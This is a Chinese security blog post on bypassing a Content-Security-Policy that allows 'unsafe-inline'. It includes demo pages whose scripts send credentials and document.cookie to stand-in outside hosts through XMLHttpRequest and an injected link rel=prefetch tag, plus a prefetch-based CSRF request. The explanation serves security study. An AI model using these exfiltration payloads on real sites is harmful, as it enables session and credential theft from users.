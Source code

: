 ```yaml
---
title: CSP进阶-link Bypass unsafe line
date: 2016-10-28 19:19:57
tags:
- Blogs
- csp
categories:
- Blogs
---
```


随着时代的发展,XSS也成不可磨灭的漏洞之一，但是攻和防的进化总是相互交织的，所以CSP也应运而成，以白名单为基础而建立的防御策略本以为会是xss的克星，但事实并不是这样的，曾经也写过一篇文章

我的CSP科普文章
[http://lorexxar.cn/2016/08/08/ccsp/](http://lorexxar.cn/2016/08/08/ccsp/)

里面也提到了一些关于bypass的手段，但是没想到有些东西有点儿太过简单了，所以在看到知道创宇的文章时候有了新的想法
[http://paper.seebug.org/91/](http://paper.seebug.org/91/)


<!--more-->

在原来的文章中，我主要提到了两种攻击手段，第一种是

1、script-src self unsafe-inline

在很多大型的站中我们能遇到这样的CSP，由于大站中很多时候会不可避免的写了很多内联脚本，导致CSP难以维护，这时候我们就有了很多的利用方式，可惜的是，CSP策略最重要的原则就是同源策略，如果你试图向外域发送请求，那么就会被CSP所拦截，比如

```
<?php

    header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");

    ?>

    <html>
    <head></head>
    <body>
        csp header test
        <script>
		document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";";
        
		var xml = new XMLHttpRequest(); 
		xml.open('POST', 'http://xss.ssss', true); 
		xml.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 
		xml.send('username='+user+'&password='+pass);
        </script>
    </body>
    </html>
```

如果script中为我们构造，就一定会被拦截，虽然你可以任意的执行alert(1).

这时候我们的解决办法往往是通过站内信的方式，把数据发送到同源下某个可以接受信息的地方，这样同样可以获得信息。

这时候就需要提到我曾经使用过的另一种攻击手段了，由于firefox的安全性仍然走在chrome的前面，所以就出现了一个特别的只在chrome下的利用方式

```
<link rel="prefetch" href="http://xxxx/submit.php?addadmin=123456">
```

当时我在文章中提到了这种攻击方式，可以构成csrf，由于link标签毕竟仍是一个html标签，所以没办法，仅通过link标签并没有办法盗取cookie。

但事实上如果我们存在一个script的构造点，但是却没办法通过CSP发请求到外网，我们有了新的解决办法，就是创宇的文章中提到的

```
  <?php

    header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");

    ?>

    <html>
    <head></head>
    <body>
        csp header test
        <script>
        document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";";

        var n0t = document.createElement("link");
        n0t.setAttribute("rel", "prefetch");
        n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
        document.head.appendChild(n0t);
        </script>
    </body>
    </html>
```

把前面提到的两个洞结合起来，那么我们成功了的接收到了，bypass成功

下面是实例图

![](/img/ccsp/cspthen/1.png)

我们看到直接的请求被拦截了，但是link发送成功了

![](/img/ccsp/cspthen/2.png)

成功收到了